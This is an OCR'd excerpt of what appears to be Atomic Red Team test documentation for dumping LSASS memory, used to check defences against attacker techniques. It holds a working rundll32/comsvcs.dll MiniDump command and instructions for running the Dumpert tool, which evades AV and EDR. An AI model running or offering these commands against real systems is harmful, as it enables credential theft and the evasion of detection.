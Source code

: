 ## Atomic Test #6 - Dump LSASS.exe Memory using comsvcs.dll

The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved with a built-in dll.

Upon successful execution, you should see the following file created $env:TEMP\lsass-comsvcs.dmp.

**Supported Platforms:** Windows

#### Attack Commands: Run with `powershell`!  Elevation Required (e.g. root or admin)

```powershell
C:\Windows\System32\rundll32.exe C:\windows\System32\comsvcs.dll, MiniDump (Get-Process lsass).id $env:TEMP\lsass-comsvcs.dmp full
```

#### Cleanup Commands:

```powershell
Remove-Item $env:TEMP\lsass-comsvcs.dmp -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #7 - Dump LSASS.exe Memory using direct system calls and API unhooking

The memory of lsass.exe is often dumped for offline credential theft attacks. This can be achieved using direct system
calls and API unhooking in an effort to avoid detection.
https://github.com/outflanknl/Dumpert
https://outflank.nl/blog/2019/06/19/red-team-tactics-combining-direct-system-calls-and-srdi-to-bypass-av-edr/
Upon successful execution, you should see the following file created C:\windows\temp\dumpert.dmp.

If you see a message saying "The system cannot find the path specified.", try using the get-prereq_commands to download
the tool first.

**Supported Platforms:** Windows

#### Inputs:

| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| dumpert_exe | Path of Dumpert executable | Path | PathToAtomicsFolder&#92;T1003&#92;bin&#92;Outflank-Dumpert.exe|

#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin)

```cmd
#{dumpert_exe}
```
